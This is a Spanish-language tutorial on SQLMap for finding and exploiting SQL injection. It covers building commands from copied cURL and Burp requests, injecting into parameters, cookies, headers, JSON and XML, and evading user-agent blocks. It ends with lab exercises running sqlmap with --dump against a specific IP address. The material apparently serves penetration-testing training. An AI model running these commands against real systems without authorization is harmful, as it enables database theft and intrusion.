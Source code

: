 ### Uso de SQLMap en Peticiones HTTP

SQLMap permite automatizar la detección y explotación de vulnerabilidades de **inyección SQL (SQLi)** en aplicaciones web. Para utilizarlo correctamente, es importante configurar adecuadamente las peticiones HTTP, asegurándonos de incluir las cookies, encabezados y parámetros adecuados.

---

## **1. Configuración de SQLMap con cURL**

Una forma sencilla de configurar SQLMap es utilizando la opción **"Copiar como cURL"** desde las herramientas de desarrollo del navegador (Chrome, Edge, Firefox).

1. **Copiar la petición como cURL**
    
    - Abrir la pestaña **Red (Network)** en las herramientas de desarrollo.
    - Hacer clic derecho en la petición HTTP y seleccionar **Copy > Copy as cURL**.
2. **Convertir la petición a SQLMap**  
    Pegar la petición en la terminal y reemplazar `curl` por `sqlmap`:
    
    ```bash
    sqlmap 'http://www.example.com/?id=1' \
    -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' \
    -H 'Accept: image/webp,*/*' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
    ```
    
    - Esta técnica garantiza que SQLMap use la misma petición que el navegador.

---

## **2. Inyección SQL en Parámetros GET y POST**

- **Peticiones GET**: Se utilizan con `-u` para definir la URL.
    
    ```bash
    sqlmap -u "http://www.example.com/?id=1"
    ```
    
- **Peticiones POST**: Se definen con `--data`.
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1&name=test"
    ```
    
- **Restringir la prueba a un solo parámetro**: Si sabemos que `uid` es vulnerable, podemos indicarlo con `-p`:
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1&name=test" -p uid
    ```
    
- **Marcador `*` para inyección**:
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1*&name=test"
    ```
    
    Esto indica que SQLMap debe probar la inyección en `uid`.

---

## **3. Uso de Archivos de Peticiones HTTP**

Si la petición tiene muchos encabezados o un cuerpo POST complejo, podemos usar `-r` con un archivo de solicitud HTTP:

1. **Capturar la petición con Burp Suite**
    
    - En Burp, hacer clic derecho en la petición y seleccionar **Copy to file**.
    - Guardar la petición en un archivo (`req.txt`).
2. **Ejecutar SQLMap con el archivo de solicitud**
    
    ```bash
    sqlmap -r req.txt
    ```
    
    SQLMap leerá la petición completa desde el archivo y probará vulnerabilidades.
    

---

## **4. Configuración Avanzada de SQLMap**

### **Cookies y Sesiones**

- **Incluir una cookie de sesión** con `--cookie`:
    
    ```bash
    sqlmap -u "http://www.example.com/" --cookie="PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"
    ```
    
- **Alternativamente, definir la cookie en los encabezados** con `-H`:
    
    ```bash
    sqlmap -u "http://www.example.com/" -H "Cookie: PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"
    ```
    

### **User-Agent Aleatorio**

Algunas aplicaciones bloquean solicitudes con el User-Agent de SQLMap. Podemos evitarlo con `--random-agent`:

```bash
sqlmap -u "http://www.example.com/" --random-agent
```

También podemos simular un navegador móvil con `--mobile`.

### **Prueba de Inyección en Encabezados**

Podemos inyectar SQL en encabezados como `Cookie`, `Referer`, `User-Agent`, etc.:

```bash
sqlmap -u "http://www.example.com/" --cookie="id=1*"
```

### **Uso de Métodos HTTP Diferentes**

Si la aplicación usa `PUT` en lugar de `GET` o `POST`, podemos indicarlo con `--method`:

```bash
sqlmap -u "http://www.example.com/" --data="id=1" --method PUT
```

---

## **5. Prueba de Inyección en JSON y XML**

SQLMap soporta inyecciones en formatos JSON y XML.

### **Inyección en JSON**

Si la aplicación usa JSON, podemos probar con:

```bash
sqlmap -u "http://www.example.com/" --data='{"id":1}'
```

Si la estructura es compleja, se recomienda usar `-r` con un archivo:

```bash
cat req.txt
```

```http
POST /api/data HTTP/1.1
Host: www.example.com
Content-Type: application/json

{
  "user": {
    "id": "1",
    "name": "test"
  }
}
```

Ejecutamos SQLMap:

```bash
sqlmap -r req.txt
```

### **Inyección en XML**

Si la aplicación usa XML, podemos hacer:

```bash
sqlmap -u "http://www.example.com/" --data='<element><id>1</id></element>'
```

O usar un archivo:

```bash
cat req.txt
```

```http
POST /api/data HTTP/1.1
Host: www.example.com
Content-Type: application/xml

<element>
  <id>1</id>
</element>
```

```bash
sqlmap -r req.txt
```

---

## **Conclusión**

SQLMap permite realizar pruebas de **inyección SQL automatizadas** de manera eficiente. Las mejores prácticas incluyen:

- **Usar la opción "Copiar como cURL"** para configurar SQLMap con precisión.
- **Utilizar `-r` para peticiones complejas capturadas con Burp**.
- **Restringir las pruebas a parámetros específicos con `-p`**.
- **Explorar inyecciones en JSON y XML si la aplicación lo usa**.
- **Utilizar encabezados personalizados y cookies para evadir restricciones**.

Este enfoque ayuda a evitar errores comunes y facilita la detección de vulnerabilidades SQLi en aplicaciones web.



## EJERCICIO

* Ejercicio 1
	


```
  sqlmap 'http://94.237.54.69:46196/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.54.69:46196' -H 'Connection: keep-alive' -H 'Referer: http://94.237.54.69:46196/case2.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'id=1' --batch --dump
```

 
* Ejercicio 2 
sqlmap -u "http://94.237.54.69:46196/case3.php" --compressed \
-H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "Connection: keep-alive" \
-H "Referer: http://94.237.54.69:46196/" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Priority: u=0, i" \
--cookie="id=*" -p id --batch --dump

* Ejercicio 3
